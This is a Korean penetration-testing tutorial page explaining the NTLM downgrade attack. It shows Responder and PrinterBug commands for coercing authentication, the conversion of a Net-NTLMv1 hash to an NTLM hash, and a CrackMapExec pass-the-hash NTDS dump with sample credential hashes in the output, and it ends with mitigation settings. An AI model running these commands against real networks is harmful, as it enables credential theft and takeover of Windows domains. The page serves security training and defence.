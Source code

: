 # NTLM 다운그레이드

LLMNR, Nbt-NS, mDNS 포이즈닝 공격이나 강제 인증 공격으로 얻어진 Net-NTLMv1 해시들은 특정 조건이 맞을 때 NTLM 해시로 다운그레이드 공격을 할 수 있다. 다운그레이드 공격은 (복잡한) 암호학적 공격 (Cryptographic Attack) 관련된 공격이기 때문에 이 글에서는 설명하지 않는다. 관련 공격은 [이 레퍼런스](https://github.com/evilmog/ntlmv1-multi)를 참고하면 된다. 다운그레이드 해 얻어진 NTLM 해시는 Pass-the-Hash (PTH)을 통해 인증에 사용된다.&#x20;

### 전제 조건&#x20;

* 포이즈닝이나 강제 인증 공격으로 인증 트래픽과 해시를 얻을 것&#x20;
* 해시를 얻기 전 NTLM Challenge 를 1122334455667788 로 설정할 것&#x20;
* 얻은 해시가 Net-NTLMv1 일 것 (`HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel` 가 0, 1, 2 일 때)&#x20;
* Responder의 `--disable-ess` 등의 플래그 사용으로 Extended Session Security가 비활성화 된 Net-NTLMv1 해시일 것&#x20;

### 실습&#x20;

{% tabs %}
{% tab title="리눅스" %}
간단한 PoC를 위해 프린터 버그로 강제 인증을 실행하고, Responder로 해시를 받는다.&#x20;

```
# Responder 실행 
responder -I <NIC> -v --disable-ess 

# 프린터버그 실행 
git clone https://github.com/dirkjanm/krbrelayx
python3 printerbug.py '<domain>/<user>:<pass>'@<fqdn/IP> <attackerIP>
```
{% endtab %}

{% tab title="윈도우-비컨" %}
Inveigh + SpoolSample 혹은 Petitpotam 을 이용&#x20;
{% endtab %}
{% endtabs %}



![앞 뒤가 똑같은 1577](../.gitbook/assets/ntlm.png)

ESS가 비활성화된 Net-NTLMv1 은 `:` 를 기준으로 같은 문자열이 나온다. 이제 이 문자열을 `NTHASH:(문자열)` 형태로 `crack.sh` 라는 홈페이지에 첨부를 하면 NTLM 문자열을 받아올 수 있다.&#x20;

> 모의해킹을 진행하거나 레드팀 작전 수행 시 고객사 네트워크에서 얻은 해시를 랜덤한 홈페이지에 업로드 하면 안된다. 이 페이지의 실습은 연습용이기 때문에 crack.sh를 사용한다.&#x20;
>
> 실무였다면 crack.sh가 아니라 hashcat을 이용해 Net-NTLMv1 -> NTLM 다운 그레이드를 실행한다&#x20;

![](<../.gitbook/assets/ntlmv1-crack-sh (1).png>)

이런식으로 첨부하면 이메일로 다운그레이드 된 NTLM 해시가 온다. 이제 이 해시를 이용해 PTH를 해 사용자 인증을 한다.&#x20;

이 실습에서는 강제 인증을 통해 도메인 컨트롤러의 머신 계정 NTLM 해시를 얻었다. 따라서 이를 이용해 NTDS 덤프 공격을 실행한다.&#x20;

```
┌──(root㉿kali)-[/opt/NetNTLMtoSilverTicket]
└─# cme smb 192.168.40.150 -u "DC01$" -H '01d90becd940616e8d0e7540f5e725dc' -d choi.local --ntds 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\DC01$:01d90becd940616e8d0e7540f5e725dc 
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... > 
```

### 대응 방안&#x20;

NTLM 다운그레이드 공격의 근본적 원인은 바로 타겟 호스트가 Net-NTLMv1 해시를 반환했다는 것이다. 윈도우 10과 윈도우 서버 2016 이후 기본적으로 Net-NTLMv2 를 사용하도록 되어있지만, 아직도 많은 네트워크에서는 하위 호환성을 위해 Net-NTLMv1 이나 심지어는 NTLM 해시를 사용하도록 되어있는 곳도 있다.&#x20;

따라서 하위 호환성 테스트를 거친 뒤 Net-NTLMv1 을 사용하는 프로세스나 어플리케이션이 없다면 모든 호스트에서 Net-NTLMv2 를 사용하도록 설정한다.&#x20;

```
# 레지스트리
HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel 
- 3 이상으로 설정

# 그룹 정책 
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security: LAN Manager authentication level
- 3 이상으로 설정 
```



### 레퍼런스&#x20;

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://github.com/evilmog/ntlmv1-multi" %}

{% embed url="https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level" %}
